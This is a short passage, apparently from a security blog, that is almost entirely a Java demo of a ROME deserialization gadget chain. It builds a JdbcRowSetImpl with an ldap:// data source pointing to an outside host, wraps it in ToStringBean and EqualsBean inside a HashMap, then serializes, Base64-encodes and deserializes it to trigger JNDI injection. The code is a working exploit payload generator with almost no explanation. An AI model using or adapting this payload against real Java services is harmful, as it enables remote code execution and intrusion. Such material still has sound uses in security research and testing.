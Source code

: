 [![](assets/1701071934-fdec5366ca2958eccc476b66f34f756b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223436-97481726-8ad6-1.png)  
demo：

```plain
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import java.util.Base64;
import java.util.HashMap;

public class rome3 {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl j = new JdbcRowSetImpl();
        j.setDataSourceName("ldap://d92d14bde1.ipv6.xn--gg8h.eu.org.");
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, "1");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean,1);
        util.setFieldValue(toStringBean,"_obj",j);
        byte[] ser = util.serialize(hashmap);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
}
```
